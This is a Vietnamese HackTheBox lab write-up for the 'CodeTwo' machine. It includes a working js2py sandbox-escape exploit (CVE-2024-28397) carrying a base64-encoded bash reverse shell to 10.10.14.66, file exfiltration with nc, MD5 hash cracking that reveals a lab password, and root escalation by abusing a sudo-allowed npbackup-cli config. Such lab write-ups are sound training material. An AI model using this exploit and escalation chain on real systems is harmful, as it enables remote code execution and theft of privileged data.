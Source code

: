 ```yaml
---
title: HTB CodeTwo
published: 2025-09-03
tags: [Markdown, Blogging, Demo]
category: Writeups
author: Trohan0x00
draft: true
---
```


# HTB Labs: CodeTwo

## I. User_Flag
Bước ban đầu scan với nmap trước ta được 2 services
![image](https://hackmd.io/_uploads/B10CR8Lqlg.png)
Có vẻ như ssh ta chưa thể khai thác được gì nên giờ ta đến với web server
![image](https://hackmd.io/_uploads/B1SByD85gx.png)
Đây là một plaform giúp người dùng có thể code nhanh `Javascript` với `IDE` online trên máy chủ. Ta có các dir là `/login`, `/register` và `/download`. Ta sẽ thử reg và login một account để xem chức năng.
Sau một lúc tìm hiểu chức năng thì ta có thể tìm thấy lỗ hỏng `SSTI` ở trong `/dashboard` nơi để ta viết code
![image](https://hackmd.io/_uploads/S1lwlvUcxx.png)
Nhưng có vẻ đã bị sandbox, và filter hết tất cả các hàm có thể khai thác nên có lẽ ta cần download source app ở `/download` để có thể tìm thêm thông tin
![image](https://hackmd.io/_uploads/HknVWwU5ll.png)
ta thấy được source dùng thư viện `js2py`. Đây là thư viện giúp ta có thể code được code `Javascript` trong `Python` như đã thấy ở phía web server và đây cũng giải thích lý do vì sao server chạy `Jinja2` lại có thể code `Javascript` 
![image](https://hackmd.io/_uploads/SyU_R2Lclx.png)
Sau một lúc tìm kiếm, ta thấy được một `CVE-2024-28397` của thư viện này và có public poc [ở đây](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)
Cụ thể lỗ hỏng này cho phép attacker có thẻ `escape` khỏi môi trường `javascript` để có thể `RCE` và thực hiện các lệnh injection ta có được `POC` khai thác và mình sẽ sửa lại một chút để tương thích với bài lab hơn
```javascript 
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxKQ==|base64 -d|bash"; 
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
```
Ở `POC` chỉ lệnh `RCE` bình thường nhưng để thuận tiện khai thác mình sẽ thực hiện reverse shell về phía local với payload `(bash -i >& /dev/tcp/10.10.14.66/4444 0>&1)`
![image](https://hackmd.io/_uploads/BkQmTWw5ge.png)
Ta thành công lấy được shell ở local, check dir hiện tại thì đang ở `/home/app/app`, sau một lúc recon thì thấy được một file users.db ở dir `/home/app/app/instance/` có lẽ file này sẽ có thông tin hữu ích để có thể khai thác
Nhưng do shell ở target không có `sqlite3` để đọc dữ liệu nên ta sẽ dùng `nc` để chuyển về local 
![image](https://hackmd.io/_uploads/SyklRWw9xx.png)
Ta thành công get file về và dùng `sqlite3` để check, thấy rằng db có 2 bảng là `code_snippet` và `user`. Check `user` thì thấy các credential của user với `hashed passwd`
![image](https://hackmd.io/_uploads/SkvPkMv9ex.png)
Và ở phần source code ta biết được passwd sẽ được encrypt bằng `MD5` nên ta có thể dùng `John` để crack dễ dàng. Mình sẽ dùng wordlist `rockyou`
![image](https://hackmd.io/_uploads/H1kEGfv5ee.png)
Giờ ta đã có credential hoàn chỉnh `marco:swetangelbabylove` giờ thì có thể login với ssh server và lấy được `user_flag`
![image](https://hackmd.io/_uploads/H13uMMD9le.png)

## II. Root flag

Check với `sudo -l`, ta thấy có một process có thể run với toàn quyền `root` là `/usr/local/bin/npbackup-cli`. 
![image](https://hackmd.io/_uploads/BJ5oGfPcxl.png)
`npbackup-cli (Portable Network Backup Client)` đây là công cụ `CLI` để tạo và quản lý backup, hỗ trợ snapshot, restore, kiểm tra tính toàn vẹn, và housekeeping. Và file config mặc định sẽ là `npbackup.conf` cũng được tìm thấy ngay tại thư mục hiện tại
```config
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```
Hãy tưởng tượng sẽ thế nào nếu phần config thay vì chỉ backup ở dir là `/home/app/app` thì mình sẽ đổi lại thành `/root`? Vì vốn dĩ khi config target đã cho ta toàn quyền sudo với `npbackup-cli` thì ta có thể thực hiện việc backup toàn bộ thư mục root và sau đó `dump` ra dữ liệu mà ta cần
Và nên lưu ý, do file ban đầu ta không hề được cấp quyền `write` nên ta có thể xóa luôn file config ban đầu và tạo lại một file mới. Sau đó lưu lại bằng `sudo npbackup-cli -c npbackup.conf -b -f`

Giờ thì ta hoàn toàn có thể dump dễ dàng file `root.txt` ra `sudo npbackup-cli -c npbackup.conf -f --dump /root/root.txt`

![image](https://hackmd.io/_uploads/Hk_tvMD5ee.png)


